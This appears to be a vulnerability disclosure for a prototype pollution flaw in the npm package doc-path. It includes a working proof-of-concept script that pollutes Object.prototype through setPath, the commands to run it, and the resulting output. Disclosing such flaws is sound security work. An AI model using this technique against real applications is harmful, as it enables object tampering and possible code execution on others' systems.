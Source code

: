 # Description

`doc-path` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { setPath } =  require('doc-path')

console.log(`Before: ${{}.polluted}`)
setPath({}.__proto__, 'polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i doc-path # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

